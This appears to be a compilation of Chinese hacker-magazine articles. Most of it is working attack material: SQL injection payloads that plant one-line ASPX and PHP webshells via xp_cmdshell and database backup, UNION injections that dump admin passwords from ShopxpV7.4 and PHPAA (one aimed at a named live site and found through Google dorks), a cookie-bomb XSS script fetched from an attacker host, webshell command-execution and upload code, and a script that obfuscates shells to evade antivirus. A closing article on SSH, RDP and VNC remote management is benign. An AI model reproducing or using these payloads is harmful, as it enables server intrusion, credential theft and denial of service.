- 3. 插入一句话木马：`张%' and '1'='1' and '%'='%';insert into Feitest(cmd) values('<%@ Page Language="Jscript" validateRequest="false" %><%Response.Write(eval(Request.Item["W"],"unsafe"));%>')--`

转换后，发现不能正常使用，但不转换的话则可以，不知道是什么原因，也希望大牛们能够为我解答一下，执行成功如图 12 所示。

- 4. 备份一个一句话木马到 Web 目录下：

```sql
张%' and '1'='1' and '%'='%';declare @a sysname,@s varchar(4000)
select @a=db_name(),@s=0x443A5C4D7920446F63756D656E74735C56697375616C2053747564696F20323030385C57656253697465735C57656253697465315C466569546573742E61737078 backup database @a to disk=@s WITH DIFFERENTIAL,FORMAT--
```

语句中的“0x443A5C4D7920446F63756D656E74735C56697375616C2053747564696F20323030385C57656253697465735C57656253697465315C466569546573742E61737078”是转换成 16 进制后的 Web 路径，没有转换前为“D:\My Documents\Visual Studio 2008\WebSites\WebSite1\FeiTest.aspx”，执行这句语句后就会在 Web 目录下生成一个 Feitest.aspx 文件，当然也就是一句话木马了，备份成功，如图 13 所示。

- 5. 删除刚才建立的表：`张%' and '1'='1' and '%'='%';drop table Feitest--`，这条语句就是删除刚才创建的 Feitest 表。

现在我们使用一句话木马的客户端来连接，然后再把我已经编写的一个小马上传上去，如图 14，上传成功了。关于 DB 权限的利用，至此就告一段落了。

## 三、SA权限下获取WebShell

SA 权限相对于 DB 权限要容易得多，方法也有很多。如果能够执行命令并且 3389 也开启的话，那我们直接添加账户就可以搞定了，不过这种情况目前可是很难遇到的。对于获取 WebShell，Web 路径我们已经知道了，因此可以直接使用 echo 命令写个 WebShell 到 Web 目录下。echo 命令中一个“>”表示不在源文件上追加，而“>>”表示追加内容，当然前提是 XP_CmdShell 存在。我们在搜索框中输入语句：

```sql
exec master..xp_cmdshell 'echo ^<%@ Page Language="Jscript" validateRequest="false" %^>^<%Response.Write(eval(Request.Item["w"],"unsafe"));%^>>D:\My Documents\Visual Studio 2008\WebSites\WebSite1\hacker.aspx'--
```

这样就可以直接 echo 进去一个一句话木马到 Web 目录下，点击搜索后返回正常，写入一句话木马成功了，如图 15。

> （文章中涉及到的 aspx 木马服务端、脚本文件、数据库以及非专版 .aspx，已经收录在了光盘中）

鬼谷先生@H4CK.CN

今天和大家探讨一下基于 ASP 脚本的漏洞挖掘。事实上所有 Web 系统的漏洞挖掘都很相似，总体思路都是向程序提交我们精心构造的数据，程序在处理这些数据的时候发生异常，导致执行了带有攻击性的操作，从而达到了我们渗透入侵的目的。虽然各种脚本的语法颇有不同，但是漏洞挖掘的原理却大体相似。

这次我们就以 ShopxpV7.4 网店系统为例来给大家介绍如何挖掘脚本漏洞。先从网上下载 ShopxpV7.4 网店系统的源代码，然后在本地搭建一个测试环境，比如使用 Windows Server 2003 + IIS6.0 就行，只要能支持 ASP 脚本的都可以。仔细查看程序源代码，通常我们会先看一些文章、公告、消息、留言的发布页，因为这些页面一般都要从数据库中取出特定数据。我最先查看的是 shopxp_news.asp 文件。初学者们可能都会问：“我们具体要看什么呢？”通读程序的源代码？当然不是，那样会把自己搞得精疲力尽。我们主要看的是有信息输入和输出的地方，比如在 shopxp_news.asp 中，就可以看到：

```asp
<%if IsNumeric(request.QueryString("id"))=False then
  response.write("<script>alert('非法访问!');location.href='index.asp';</script>")
  response.end
end if

dim id
id=request.QueryString("id")
if not isinteger(id) then
  response.write "<script>alert('非法访问!');location.href='index.asp';</script>"
end if

dim newsid
newsid=request.QueryString("id")
set rs=server.CreateObject("adodb.recordset")
rs.open "select * from shopxp_news where newsid="&newsid,conn,1,3
If rs.eof Then
  Response.Write "<script Language=Javascript>alert('没有此ID的新闻！！');location.href='javascript:history.back()';</script>"
  Response.End
end if
%>
```

看到这里我心就凉了大半截，程序首先对 id 进行了 IsNumeric 的判断，又进行了 isinteger 判断，基本上没什么破绽。难道我们就这样认输吗？当然不是，我们要迎难而上，挑战困难才是黑客们必备的一个精神……

```asp
Action=LCase(Request.QueryString("Action"))
newsID=Request.QueryString("newsID")

if request("action")="modify" Then
  set rs=server.createobject("adodb.recordset")
  sql="select * from shopxp_zhuanti where newsid="&newsid
  rs.open sql,conn,1,1
  If Not rs.Eof Then
    Content=rs("Content")
  End If
  Response.Write Content
End If
%>
```

看到这里感觉似乎有点儿问题了，程序对 newsID 没有进行过滤就直接进入 SQL 了，那我们就构造一个 SQL 注入语句来试试吧。

有 11 个字段，Content 是第四个字段，管理员的账号和密码是 shopxp_admin 表的 admin 字段和 password 字段。使用联合查询来构造：`union select 1,2,3,admin%2bpassword,5,6,7,8,9,10,11 from shopxp_admin`，如果不出意外的话，结果就会被 `Response.Write Content` 出来。

图1

图2

使用 Google 搜索关键字“inurl:shopxp_news.asp”就会找到很多存在漏洞的网站。我们从中随便选择一个网站进行演示，在 IE 中提交构造链接后，管理员账号 admin 以及加密后的密码被暴出来，并可进一步解密登录后台（如图 2）。后台可见支付信息等敏感数据。

其实还有几个页面可以注入的，TEXTBOX1.ASP、TEXTBOX2.ASP、TEXTBOX3.ASP 中的方法与上面的类似。在 TEXTBOX1.ASP 中我们可以看到如下的代码：

```asp
Action=LCase(Request.QueryString("Action"))

if InStr(Action,"'")>0 then
  response.write "<script>alert('非法访问!');location.href='./index.asp';</script>"
  response.end
end if

set rs=server.createobject("adodb.recordset")
sql="select "&Action&" from shopxp_setup"
rs.open sql,conn,1,1
If Not rs.Eof Then
  Content=rs(0)
End If
Response.Write Content
%>
```

这个和上面的不太一样，而且也对 Action 做了简单的判断，但却是可以绕过的。不过看到`rs(0)`就不用再看了，因为返回结果是`rs(0)`，就算构造了 SQL 注入语句也不会把结果返回给我们的。

继续来看`TEXTBOX2.ASP`和`TEXTBOX3.ASP`吧，这里就不一一分析了。`TEXTBOX2.ASP`可以构造如下的语句：

`http://www.nugongw.cn/TEXTBOX2.ASP?action=modify&news%69d=122%20and%201=2%20union%20select%201,2,admin%2bpassword,4,5,6,7%20from%20shopxp_admin`

而对于`TEXTBOX3.ASP`，我是这样构造的：

`http://www.nugongw.cn/TEXTBOX3.ASP?action=modify&shopxpptid=-1%20union%20select%201,2,3,4,5,6,7,admin%2bpassword,9,10,1,2,3,4,5,6,7,8,9,10,1,2,3,4,5,6,7,8,9,10,1,2,3%20from%20shopxp_admin`

但不知道为什么，结果没有显示出来，却直接跳转到首页了。

在实际的入侵过程中总是会遇到各种各样的问题，不过不要灰心，毕竟我们已经找到了两个可以利用的注入点了。

（文章中涉及到的 ShopxpV7.4 网店系统代码已经收录在了光盘中）

## 搜索型注入击垮VODCMS终极
### ——Server Limit DoS

Kashif[S.S.T]

在今年第三期杂志的《搜索型漏洞来击垮 VODCMS 6.0.0》一文中我留了个 CSRF，可能很多小菜都会问它有什么用：1、没有 IE 浏览器的 0day 漏洞，无法有效挂马；2、没有程序源码，无法利用 ajax 操作后台。是的，正是因为这两点才使得我们无法进行常规的攻击，不过我们还有非常规的方法——Server Limit DoS，大家可以理解为 XSS 的 DDoS。

首先，我们来理解一下什么是 CSRF？CSRF 是伪造客户端请求的一种攻击，其英文全称为 Cross Site Request Forgery，按照字面上的意思就是跨站点伪造请求。这种攻击方式是国外的安全人员于 2000 年提出的，但直到近几年才被国内人员所关注。CSRF 的定义是强迫受害者的浏览器向一个易受攻击的 Web 应用程序发送请求，最后达到攻击者所需要的操作行为。CSRF 漏洞的攻击一般分为站内和站外两种类型：CSRF 站内类型的漏洞在一定程度上是由于程序员滥用`$_REQUEST`类变量造成的，一些敏感的操作本来是要求用户从表单提交发起 POST 请求传递参数给程序，但是由于使用了`$_REQUEST`等变量，程序也接收 GET 请求传递参数，这样就给攻击者使用 CSRF 攻击创造了条件。

一般攻击者只要把预设好的请求参数放在站内一个帖子或者留言的图片链接里，受害者浏览了这样的页面就会被强迫发起请求。而 CSRF 站外类型的漏洞其实就是传统意义上的外部提交数据问题，一般程序员会考虑给一些留言评论等的表单加上水印以防止 SPAM 问题，但是为了用户的体验性，一些操作可能没有做任何限制，所以攻击者可以先预设好请求的参数，在站外的 Web 页面里编写 JavaScript 脚本伪造文件请求或自动提交的表单来实现 GET、POST 请求，用户在会话状态下点击链接访问站外的 Web 页面，客户端就被强迫发起请求。

那么，什么又是 Server Limit DoS 呢？HTTP 头的长度，在 Apache 等 Web 服务器里是有一定要求的，如果超出了一定的长度，就会产生服务器错误。在 HTTP 头里面有 cookie、location、host……如果我们可以控制其中的一个（例如 cookie）来给用户植入大长度的 cookie，就会使得用户访问该域下所有的请求时都带上大长度的 cookie，从而导致用户不管访问域名下的哪个文件，都会产生服务器错误，造成客户端无法访问的情况。我们利用 XSS 把 cookies 一次搞大，并且设为永久性的，这样网站就不能访问了。

对于 Internet 上的网站来说，用户才是最重要和最宝贵的资源，哪怕用户的账户被盗了，对于互联网公司的损失可能都比不上用户无法访问网站所造成的损失要大，而使用 XSS DDoS，就可以轻易地造成成千上万的用户无法访问网站。

下面我引用大风牛人的一段 JS 代码：

```javascript
var metastr = "AAAAAAAAAAAA";
var str = "";
while (str.length < 5000) {
  str += metastr;
}
// 将cookie的时间设到了2019年，作用域为根目录
document.cookie = "evil3=" + "Hacked By ..." + ";expires=Thu, 18-Apr-2019 08:37:43 GMT; path=/";
document.cookie = "evil1=" + str + ";expires=Thu, 18-Apr-2019 08:37:43 GMT; path=/";
document.cookie = "evil2=" + str + ";expires=Thu, 18-Apr-2019 08:37:43 GMT; path=/";
alert("Xss DDOS");
```

这段 JS 代码执行成功后就会在当前域中生成 3 个 cookie，……数据大。我们将代码保存为 js 文件并上传到自己的空间中，将第三期杂志中的 CSRF 改成下面这样：`http://mov.xxx.edu.cn/index.php?mod=content&action=search&keyword="%c1><script%20src=http://yourweb/mov.js></script>`，或者进行 URL 编码……注意：IE8 将拦截这种反射型 XSS，但在 IE7 及以下版本、360 浏览器、TheWorld 等就不会拦截。

怎么样，小小的 CSRF 竟能造成这么大的危害，虽然不是拿 webshell 之类的漏洞，但危害却远比那样更大，相关代码我已经打包好了，同学们要抓紧时间研究此类漏洞啊！


我们来实地操作一下，在浏览器中打开刚才构造的链接地址，如图1，这样在本地电脑中就已经有了该域下的超大 Cookie 了，刷新一下浏览器看看效果，如图2，再访问主页或其他页面时，就都会出现如图2所示的这种情况了……

（文章中涉及到的代码，已经收录在了光盘中）

## PHPAA 文章管理系统漏洞分析

鬼谷先生@H4CK.CN

漏洞挖掘听起来很神秘，其实也并非是高不可及的，只要打好基础，一步一个脚印地去学习，我们就可以挖掘出一些网站系统的 0day 漏洞来。今天我就给大家介绍一下基于 PHP 脚本的漏洞挖掘技术。

基于源代码的漏洞挖掘还是比较容易的，我们就以 PHPAA 文章管理系统为例，它的最新版本为 V0.3.1，源代码可以到官方网站下载。下载好源码就可以在本机搭建环境来进行测试了，先来看看文章显示页面（show.php）的代码：

```php
<?php
$arc = getArticleInfo();
?>
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" ...>
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
<title><?php echo $arc['title']; ?></title>
</head>
<body>
<table width="990" align="center"> ...
```

```php
<tr>
  <td align="left" class="white"><?php echo $arc['content']; ?>&nbsp;</td>
</tr>
</table>
<?php
include_once 'footer.php';
?>
```

从上面的代码中可以看出，它是根据提交的 id 来显示相应文章的。再来看看 getArticleInfo 函数吧，我们在 include 文件夹下的 common.function.php 文件中找到了该函数：

```php
/**
 * 获取文章详情
 * @param $id
 */
function getArticleInfo($id=0){
    global $db;
    if($id==0){
        if(empty($_GET['id'])) return false;
        else $id = $_GET['id'];
    }
    return $db->getOneRow("select * from cms_article ...");
}
```

这个函数并没有对 id 进行严格的过滤，也就是说只要 id 不为空就可以执行查询数据库语句“select * from cms_article where id='.$id”。继续查看 show.php 文件中的语句，发现当查询结束后会将结果中的“title”和“content”两个字段的内容显示出来。有了上面的分析，我们就可以构造 SQL 注入语句了，首先构造一个爆管理员账号和密码的 SQL 注入语句吧。

使用联合查询的方法可以很容易地获得管理员的用户名和密码信息，只要将 id 赋值为“-1%20union%20select%201,2,username,4,5,6,7,8,9,10,password,12,13,14,15%20from%20cms_users”提交即可。我们来看一下数据执行的过程，id 传到 getArticleInfo 函数中后，首先判断 id 是否为 0，不为 0 则执行 SQL 查询语句……也就是说管理员的账号和密码信息显示在网页上。

好了，我们使用 IE 提交一下看效果吧，如图1。……既然密码已经爆出来了，那我们就把密码拿到 CMD5.COM 网站上在线解密一下，然后就可以登录后台了，后台的地址为 admin/login.php。


再来看它的跨站脚本漏洞，由于对输入的数据基本没有过滤，因此存在跨站脚本漏洞的页面比较多，但是可以被利用的我认为是留言功能。我们来看 message.php 文件中的代码。

```php
<?php
session_start();
include_once 'header.php';

if(isset($_POST['name'])){
    if($_SESSION['cfmcode']!=$_POST['cfmcode']){
        echo "<script>alert('验证码输入错误！')";
        window.history.go(-1)</script>";
        return;
    }
    $record = array(
        'title' => $_POST['title'],
        'name' => $_POST['name'],
        'sex' => $_POST['sex'],
        'qq' => $_POST['qq'],
        'phone' => $_POST['phone'],
        'email' => $_POST['email'],
        'address' => $_POST['address'],
        'content' => $_POST['content'],
        'ip' => $_SERVER["REMOTE_ADDR"],
        'created_date' => date("Y-m-d H:i:s")
    );
    $id = $db->insert('cms_message',$record);
    if($id){
        echo "<script>alert('留言成功！管理员审核才能看到！')";
        window.location='message.php';</script>";
    }
}
?>
```

大意就是将留言信息简单地判断一下后就直接写入到数据库中了，因此我们可以写入一些跨站脚本信息，但是要实现跨站脚本攻击的话还必须满足两个条件，一是输入未过滤，还有一个就是输出未转义。对于写入的留言，管理员在后台登录后会看到，因此我们再来看看 Admin/message.php 中的代码：


```php
<?php
require_once ("admin.inc.php");
$friendlink_list = $db->getList("select * from cms_message order by id desc");
?>
......
<?php foreach ($friendlink_list as $list){ ?>
......
```

```html
<td height='26' align='left' style='background-color:#EEEEEE'>&nbsp; <font style='color:#009900'><?php echo $list['created_date'];?></font> ...
```

从上面可以看出，输出是直接的 echo，并没有字符转义，也就是说我们提交的留言会完全地在后台显示，只要管理员查看留言就会执行我们的跨站脚本。至于具体的如何利用，大家就要多发挥想象力了，当然最直接的方法就是挂马了，在内容中输入“<iframe width=0 height=0 src='网马地址'></iframe>”提交即可，管理员在查看留言的时候就会中招了。我们就使用对话框脚本来演示一下吧，在留言内容中输入“<script>alert(/hack.cn/)</script>”提交，然后登录后台查看留言，如图2所示，成功地弹出了窗口。

以上就是基于 PHP 脚本漏洞挖掘的简单应用，大家可以继续挖掘，别的页面还有不少问题的！（文章中涉及到的 phpaaCMS-UTF8-0.3.1 已经收录在了光盘中）

## PHP后门讲解大全烩

fjhh


前几日无事就在 GOOGLE 上搜索了一下“inurl:.php”和“inurl:.asp”，搜索的结果很出人意料……本文我就带领大家来学习一下 PHP 的各类后门以及常见的后门加解密方法。

system() 函数的原型是 `string system (string command [, int return_var])`，system() 函数和类 C 语言中的差不多，用来执行指定的命令，输出和返回结果，它的第二个参数是可选的，作用是得到命令执行后的状态码。给出一个使用实例：

```php
<?
system('/usr/local/bin/webalizer/webalizer');
?>
```

### 一、Webshell大马

在众多的 webshell 中，angel 开发的 phpspy 堪称经典……在这里我主要介绍一下 webshell 中的命令执行，这对于获取服务器信息、提升权限尤其重要。首先给大家介绍一下在 PHP 中执行命令的三个函数。

exec() 函数的原型是 `string exec (string command [, string array [, int return_var]])`，exec() 函数与 system() 类似，也是执行指定的命令，但却不输出结果，而是返回结果的最后一行……给出一个例子：

```php
<?
exec('/bin/ls -l');
exec('/bin/ls -l', $res);
exec('/bin/ls -l', $res, $rc);
?>
```


在 PHP 中，用来执行命令的三个函数分别是 system()、exec() 和 passthru()。

passthru() 函数的原型是 `void passthru (string command [, int return_var])`，passthru() 函数只调用命令，不返回任何结果，但会把命令的运行结果原样输出到标准输出设备上……

```php
header("Content-type":"image/gif");
passthru("./ppmtogif hunte.ppm");
?>
```

```php
success('fail');

if($program && $program!="c:\\windows\\system32\\cmd.exe"){
    if($parameter && $parameter=="/c net start>".$SA_ROOT."log.txt"){
        ...
    }
}

formhead(array('title'=>'Execute Program'));
makehide('action','shell');
makeinput(array('title'=>'Program','name'=>'program','value'=>$program,'newline'=>1));
makeinput(array('title'=>'Parameter','name'=>'parameter','value'=>$parameter));
makeinput(array('name'=>'submit','class'=>'bt','type'=>'submit','value'=>'Execute'));
formfoot();
```

在 Windows 环境下运行 phpspy，用来执行命令的页面如图3所示，分别有 Phpfunc、wscript、proc_open 三种选择；但在 Linux 环境下却没有任何选项，如图4，这又是为什么呢？原来在 Windows 环境中，PHP 还可以使用 COM 函数来创建系统组件用于实现某些功能，比如执行任意命令、创建文件对象模型等，所以其执行命令的方式更具灵活与多样性。


下面我们就来看看具体实现的机理，执行命令的相关代码如下：

```php
elseif($action=="shell"){
    if(IS_WIN && IS_COM){
        // 如果系统为Windows且COM组件允许注册（受php.ini中的com.allow_dcom=true选项影响，默认true）
        if($program && $parameter){
            $shell = new COM('Shell.Application');
            $a = ...;
            $shell->ShellExecute($program,$parameter);
            ...
        }
    }
}
```

```php
formhead(array('title'=>'Execute Command'));
makehide('action','shc');
if(IS_WIN && IS_COM){
    $execfuncdb = array('phpfunc'=>'phpfunc','wscript'=>'wscript','proc_open'=>'proc_open');
    makeselect(array('title'=>'Use','name'=>'execfunc','option'=>$execfuncdb,'selected'=>$execfunc,'newline'=>1));
}
makeinput(array('title'=>'Command','name'=>'command','value'=>$command));
makeinput(array('name'=>'submit','class'=>'bt','type'=>'submit','value'=>'Execute'));
formfoot();

if($command){
    p('<hr width="100%" noshade /><pre>');
    if($execfunc=="wscript" && IS_WIN && IS_COM){
        $wsh = new COM('WScript.shell');
        $exec = $wsh->exec('cmd.exe /c '.$command);
    }
}
```

```php
... ReadAll();
$stdout = $exec->StdOut();
$stroutput = $stdout->...
echo $stroutput;
} elseif ($execfunc=='proc_open' && IS_WIN && IS_COM) {
  $descriptorspec = array(
    0 => array('pipe','r'),
    1 => array('pipe','w'),
    2 => array('pipe','w')
  );
  $process = proc_open($_SERVER['COMSPEC'], $descriptorspec, $pipes);
  if (is_resource($process)) {
    fwrite($pipes[0], $command."\r\n");
    fwrite($pipes[0], "exit\r\n");
    fclose($pipes[0]);
    while(!feof($pipes[1])) { ... fgets($pipes[1],1024) ... }
    fclose($pipes[1]);
    while(!feof($pipes[2])) { ... fgets($pipes[2],1024) ... }
    fclose($pipes[2]);
    proc_close($process);
  }
} else {
  echo(execute($command));
}
// end shell
```

以下是定义的 execute 函数，这个函数就是通过调用上文所介绍的 PHP 中的命令执行函数来执行命令的。

```php
function execute($cfe) {
  $res = '';
  if ($cfe) {
    if (function_exists('exec')) {
      @exec($cfe, $res);
      $res = join("\n", $res);
    } elseif (function_exists('shell_exec')) {
      $res = @shell_exec($cfe);
    } elseif (function_exists('system')) {
      @ob_start();
      @system($cfe);
      $res = @ob_get_contents();
      @ob_end_clean();
    } elseif (function_exists('passthru')) {
      @ob_start();
      @passthru($cfe);
      $res = @ob_get_contents();
      @ob_end_clean();
    } elseif (@is_resource($f = @popen($cfe,'r'))) {
      $res = '';
      while (!@feof($f)) {
        $res .= @fread($f,1024);
      }
      @pclose($f);
    }
  }
  return $res;
}
```

从以上的代码中我们可以看出，对于不同的系统环境，phpspy 执行命令的方式会有些差异，但无论是通过什么方式执行命令，其权限都是继承 IIS 或 Apache 的运行用户权限的。

### 二、DIY小马

严格说来，它并不能称之为木马，只是能上传任意类型的文件而已，当我们的 webshell 大马被服务器管理员或杀毒软件查杀后，通过它我们就可以快速地上传 webshell，它的代码短小精悍，如下所示：

```php
<?php
// 如果将位于临时文件夹内的上传文件 copy 到当前目录成功则显示上传成功
...
?>
```

```php
echo $msg = copy($_FILES['MyFile']['tmp_name'], $_FILES['MyFile']['name']) ? "上传成功" : "上传失败";
?>
<form enctype="multipart/form-data" action="" method="POST">
  <input name="MyFile" type="file">
  <input value="提交" type="submit">
</form>
```

通过 JavaScript 跳转到大马的 URL 上。

运行后的效果如图5所示。

### 三、一句话木马

由于它的代码只有一句，因此才被称为一句话木马，代码一般为“`<?php eval($_POST[cmd]);?>`”，连接的密码为 cmd。它与 diy 小马有些区别，diy 小马用来实现中转、上传任意文件，而一句话木马则可以执行由客户端提交的命令。常用的一句话木马客户端有很多种，常用的是 ASP+PHP 两用 webshell 管理器，如图6所示。一般时，一句话木马也是作为后门隐蔽，在需要对目标服务器进行信息收集、数据下载或权限提升时，通过它来提交大马。

### 四、后门的加解密

PHP 拥有强大的函数支持，所以其加解密可以通过函数来轻松实现，稍微处理后就能逃过杀毒软件的查杀了，以下是经常用来加解密的几个函数：

- `gzinflate()`：解压缩
- `gzdeflate()`：压缩
- `base64_decode()`：对 encoded_data 进行解码，返回原始数据
- `base64_encode()`：对数据进行编码

文章最后，我再来介绍一下对 webshell 的加密。

- 1. 将 webshell 保存为 webshell.txt。
- 2. 在同级目录下将下面的代码保存为 encode.php。

```php
<?php
$filename='webshell.txt';   // 要加密的文件名
$handle = fopen($filename, 'r');
$fjhhcontents = fread($handle, filesize($filename));
$temp = base64_encode(gzdeflate("?>".$fjhhcontents.""));

file_put_contents('./fjhhshell.php', '<?php eval(gzinflate(base64_decode("'.$temp.'"))); ?>');
?>
```


为了方便大家的使用，我修改了一句话木马的提交端，如图7所示，将一句话木马的地址与连接密码填好后，点击提交，就会上传 phpspy 了，上传成功后页面会自动跳转到 phpspy 的 URL 上。其原理就是将大马代码与执行写文件命令的语句发送出去，一句话木马接收后，执行写文件的命令，将大马写入文件中，再通过 JavaScript 跳转到大马的 URL 上。

- 3. 运行 encode.php，将会生成 fjhhshell.php，这就是加密过的大马。至于其解密过程恰好相反，在此就不再赘述了。

和其它语言比较起来，PHP 脚本语言灵活又多样，其功能也非常强大，因此小菜们还是赶紧来学习一下吧！

（文章中涉及到的 ASP+PHP 两用 Shell、小马大马提交客户端，已经收录在了光盘中）

## Linux黑客入门之远程管理


姬良

经过一年的学习，相信小菜们都已经掌握了基于主机的一些 Linux 技术知识，那么在新的一年中，我就要带领大家走进网络，来学习在网络中要用到的黑客技术。

在针对 Windows 系统的入侵过程中，我们都希望能够登录 3389 或者 PcAnywhere、Radmin，这样就可以非常方便地管理远程主机了，我们将这一过程称为远程管理。远程管理也可以简单地理解成是一种远程控制，但它与远程控制的不同在于，远程控制软件被杀毒软件所查杀，属于不正规的软件，而远程管理软件则是由非常正规的开发团队所开发的，杀毒软件并不拦截其对主机的控制过程。

对于 Windows 系统，我们有前面列举的那几款非常著名的远程管理软件可以使用，那么在 Linux 系统中，我们又可以使用哪些远程管理软件呢，这些远程管理软件又是否好用呢？

我们将这个问题一分为二，首先我们使用的是 Ubuntu Linux 系统，这是不变的，而远程主机的操作系统则可以分为 Windows 和 Unix/Linux 两种，也就是说我们要在自己的 Ubuntu 系统上来远程管理这两种完全不同的操作系统。

首先来介绍管理远程 Windows 主机，我们可以使用 3389 登录器，通过这个工具就可以非常方便地登录开启了 3389 服务的 Windows 系统了。除此之外，我们还可以使用 VNC 来连接安装有 VNC 服务的 Windows 系统。那么这两款工具各自的优缺点又是什么呢？

来看 3389，3389 原指 Windows 的 3389 端口，而 3389 端口是 Windows 远程桌面服务所使用的默认端口，所以目前我们都使用 3389 来代指 Windows 的远程桌面服务。远程桌面连接组件是从 Windows 2000 Server 版开始由微软提供的，但在 Windows 2000 Server 版中它也不是默认安装的。该组件一经推出就受到了广大用户的喜好，所以在 Windows XP 和 Windows 2003 系统中微软将该组件的启用方法进行了改革，我们通过简单的勾选就可以在 XP 和 2003 下完成远程桌面连接功能的开启了。

当某台计算机开启了远程桌面连接功能后，我们就可以在网络的另一端控制它了，通过远程桌面我们可以实时地进行一些操作，比如在远程计算机上安装软件、运行程序等，所有的一切就好像是直接在该计算机前操作一样，而且由于该功能是系统内置的，所以比其它第三方远程控制程序的使用更方便更灵活。

再来看一下 VNC 服务，VNC（Virtual Network Computing）是虚拟网络计算机的缩写，它是一款优秀的远程控制软件，是由著名的 AT&T 的欧洲研究实验室开发的，同时 VNC 也是基于 UNIX 和 Linux 系统的免费开源软件，其远程控制能力非常强大，性能完全可以和 Windows 及 MAC 系统中的任何远程控制软件相媲美。

VNC 基本上由两部分组成：一部分是客户端的应用程序（vncviewer）；另一部分则是服务器端的应用程序（vncserver）。VNC 的服务器端应用程序在 UNIX 和 Linux 系统中的适应性很强，图形用户界面也十分友好，看上去和 Windows 系统下的软件界面也很类似。在任何安装了客户端应用程序（vncviewer）的 Linux 系统中都可以非常方便地和安装了服务器端应用程序（vncserver）的远程计算机进行相互连接。另外，服务器端（vncserver）还内建了 Java Web 接口，这样用户通过服务器端对其它计算机的操作就能够通过 Netscape 显示出来了，这样的操作过程和显示方式也是非常直观方便的。

远程桌面和 VNC 相比起来，各有自己的特点：远程桌面的连接速度更快，而 VNC 却具有跨平台的特性。下面我就教大家如何在 Ubuntu 桌面环境下来登录远程 Windows 系统的远程桌面并控制对方主机。

打开 Ubuntu 的“终端服务客户端”，它位于 Ubuntu 桌面的上方面板的“应用程序”→“Internet”下，如图1。打开后，我们就可以看到如图2所示的窗口，在“计算机”一栏中输入想要登录的远程主机的 IP 地址，在下方的用户名和密码栏中都可以为空，点击“连接”按钮就可以连接到远程主机了，如图3。


图1

当输入了正确的用户名和密码后，我们就可以登录进入远程桌面了，如图4，这时就可以像在 Windows 系统下操作 3389 一样来操作远程主机了。不过细心的读者可能会发现，此时登录的远程桌面，分辨率非常低，并且画面也很模糊（好在速度还是很快的）。其实我们在登录之前可以对登录器进行一些设置，在终端服务客户端中点击“显示”选项，如图5，在这里就可以设置连接远程主机后的显示状况了，比如分辨率设置、颜色设置等等。而在“性能”选项中我们可以通过“性能优化选项”来优化控制的舒适度，如图6。经过以上的设置，再连接过去后，就会舒服得多了。至于 VNC，在 Windows 系统下使用的并不多，所以我们将在远程登录 Linux 系统中来介绍登录 VNC 服务端的操作。


在介绍了 Ubuntu 系统下通过 3389 端口登录远程 Windows 主机后，我们再来介绍一下如何登录管理远程的 Linux 主机。说到 Linux 系统的远程管理，就不得不提一下 SSH 了，SSH 可以算是 Linux 系统中应用最多的远程管理工具，同时也是入侵 Linux 主机时最常被利用的服务器组件。


传统的网络服务程序，比如 ftp、pop 和 telnet 等，在本质上都是不安全的，因为它们在网络上是以明文方式来传送口令和数据的，恶意用户非常容易地就可以截获到这些口令和数据。而且，这些服务程序的安全验证方式也是有弱点的，就是很容易受到“中间人”（man-in-the-middle）这种方式的攻击。所谓“中间人”的攻击方式，就是“中间人”冒充真正的服务器接收你传给服务器的数据，然后再冒充你把数据传给真正的服务器，服务器和你之间的数据传送被“中间人”这么一转手并做了手脚后，就会出现非常严重的问题了。

SSH 的英文全称是 Secure Shell，也就是安全 Shell。通过使用 SSH，我们可以把所有传输的数据进行加密，这样“中间人”的攻击方式就不能实现了，而且也能够防止 DNS 和 IP 欺骗。


另外一个额外的好处就是传输的数据是经过压缩的，所以可以加快传输的速度。SSH 有很多功能，它既可以代替 telnet，又可以为 ftp、pop、甚至 ppp 提供一个安全的“通道”。还有一点需要记住，telnet 默认使用的是 23 端口，而 SSH 默认使用的则是 22 端口。

最初 SSH 是由芬兰的一家公司开发的，但是因为受版权和加密算法的限制，现在很多人都转向使用 OpenSSH 了。OpenSSH 是 SSH 的替代软件，而且是免费的，我们可以相信，将来会有越来越多的人使用它而不是 SSH。SSH 是由客户端和服务器端软件组成的，有两个不兼容的版本，分别是 1.x 和 2.x，使用 SSH 2.x 的客户端是不能连接到 SSH 1.x 的服务器程序上去的，而 OpenSSH 2.x 则同时支持 SSH 1.x 和 2.x。

那么，SSH 的安全验证是如何工作的呢？从客户端来看，SSH 提供了两种级别的安全验证。第一种级别是基于口令的安全验证，只要你知道自己的账号和口令，就可以登录到远程主机，所有传输的数据都会被加密，但是不能保证你正在连接的服务器就是你想要连接的服务器，有可能会是别的服务器在冒充真正的服务器，也就是受到“中间人”这种方式的攻击。第二种级别就是基于密钥的安全验证，需要依靠密钥，也就是我们必须要为自己创建一对密钥，并把公用密钥放在需要访问的服务器上。

如果你要连接到 SSH 服务器上，客户端软件就会向服务器发出请求，请求用你的密钥进行安全验证。服务器在收到请求后，会先到你在该服务器的家目录下寻找你的公用密钥，然后再把它和你发送过来的公用密钥进行比较，如果两个密钥一致，服务器就使用公用密钥加密“质询”（challenge）并把它发送给客户端软件，客户端软件在收到“质询”后就可以使用你的私人密钥解密再把它发送给服务器了。

在 Ubuntu 系统上我们完全可以使用终端中的 ssh 工具来登录远程的 Linux 主机，不过为了大家能够方便地使用，我特地介绍给大家一个 GUI 界面的 ssh 启动程序。首先打开“远程桌面查看器”，它位于 Ubuntu 桌面上面板的“应用程序”→“Internet”→“远程桌面查看器”，打开后的界面如图7所示，点击界面上的“连接”按钮，就会弹出如图8所示的对话框，我们在“主机”栏中按照“远程 Linux 登录用户名@远程主机 IP 地址”的格式来进行填写，比如我们要使用 test 用户登录 IP 为 192.168.156.129 的 Linux 主机，那么就在这里输入“test@192.168.156.129”。


点击“连接”按钮后，程序就会连接远程服务，因为是第一次登录远程的 SSH 服务，所以出现了如图9所示的界面。正如前面所讲，这是让我们生成 RSA 加密证书，输入“yes”回车就可以了，然后 SSH 会提示我们输入 test 账号的密码，输入正确的密码后就可以登录进入远程的 shell，并可以执行命令来操作远程主机了，如图10。

登录远程 SSH 的操作非常简单吧，文章的最后我们再来看一下如何登录远程的 VNC 服务。还是使用远程桌面查看器，点击连接按钮后，就会出现如图11所示的对话框，在“协议”后面的下拉列表中选择“VNC”协议，然后在下面的主机栏中按照“IP:1”的格式来进行输入，记住要在对方 IP 地址后面加一个“:1”。


